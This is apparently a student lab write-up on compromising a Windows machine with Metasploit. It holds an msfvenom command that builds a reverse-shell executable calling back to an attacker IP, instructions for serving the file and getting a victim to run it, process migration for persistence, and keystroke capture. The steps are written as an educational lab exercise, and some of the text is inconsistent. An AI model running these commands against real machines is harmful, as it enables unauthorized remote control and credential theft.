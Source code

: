 # Date:
# Compromising-windows-using-Metasploit
Compromising windows using Metasploit
# Metasploit
Compromising windows using Metasploit

# AIM:

To Compromise windows using Metasploit .

## DESIGN STEPS:

### Step 1:

Install kali linux either in partition or virtual box or in live mode

### Step 2:

Investigate on the various categories of tools as follows:

### Step 3:

Open terminal and try execute some kali linux commands

# program:
Find the attackers ip address using ifconfig

# OUTPUT:
# ![image](https://github.com/Roselineb/Compromising-windows-using-Metasploit/assets/128909895/c7506af8-dcfc-479d-b9ad-c6cdc46dc592)


Create a malicious executable file fun.exe using msenom command msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.2 -f exe > fun.exe

# ![image](https://github.com/Roselineb/Compromising-windows-using-Metasploit/assets/128909895/1578b1c8-17f6-43f0-9719-cb618319c915)


copy the fun.exe into the apache /var/www/html folder 
# ![image](https://github.com/Roselineb/Compromising-windows-using-Metasploit/assets/128909895/2f628641-af6f-4735-ae7f-0cd79139df96)


Start apache server sudo systemctl apache2 start

# ![image](https://github.com/Roselineb/Compromising-windows-using-Metasploit/assets/128909895/9d055888-253c-4747-b891-3617c562762d)



Check the status of apache2 
# ![image](https://github.com/Roselineb/Compromising-windows-using-Metasploit/assets/128909895/168c5fb2-3306-4eb0-be8f-9685cf542500)


# Invoke msfconsole:

## OUTPUT:
Type help or a question mark "?" to see the list of all available commands you can use inside msfconsole.

Starting a command and control Server use multi/handler set PAYLOAD windows/meterpreter/reverse_tcp set LHOST 0.0.0.0 exploit

# ![image](https://github.com/Roselineb/Compromising-windows-using-Metasploit/assets/128909895/4d8e06f7-ab07-4481-8687-70dd289327fc)


On the target Windows machine, open a Web browser and open this URL, replacing the IP address with the IP address of your Kali machine: http://192.168.1.2/fun.exe The file "fun.exe" downloads.
# ![image](https://github.com/Roselineb/Compromising-windows-using-Metasploit/assets/128909895/2f71d107-4226-41d5-8fcd-737d1d31f671)


Bypass any warning boxes, double-click the file, and allow it to run.

On kali give the command exploit 
# ![image](https://github.com/Roselineb/Compromising-windows-using-Metasploit/assets/128909895/5ff3917c-2ce4-4eb2-9100-9ef0f8e1c8f6)

To see a list of processes, at the meterpreter > prompt, execute this command: ps ⇒ can see the fun.exe process running with pid 1156
# ![image](https://github.com/Roselineb/Compromising-windows-using-Metasploit/assets/128909895/4013ba6a-94a1-43cb-b0e3-5652c7088ed1)


The Metasploit shell is running inside the "fun.exe" process. If the user closes that process, or logs off, the connection will be lost. To become more persistent, we'll migrate to a process that will last longer. Let's migrate to the winlogon process. At the meterpreter > prompt, execute this command:

migrate -N explorer.exe at meterpreter > prompt, execute this command: netstat A list of network connections appears, including one to a remote port of 4444, as highlighted in the image below. Notice the "PID/Program name" value for this connection, which is redacted
# ![image](https://github.com/Roselineb/Compromising-windows-using-Metasploit/assets/128909895/6d8bf471-6b04-4db5-bc8e-1731b07b14d7)


keyscan_dump Shows the keystrokes captured so far 
# ![image](https://github.com/Roselineb/Compromising-windows-using-Metasploit/assets/128909895/58b0c117-aab0-4bbd-b11e-461b9dc7bffe)




## RESULT:
The Metasploit framework is  used to compromise windows and is examined successfully.
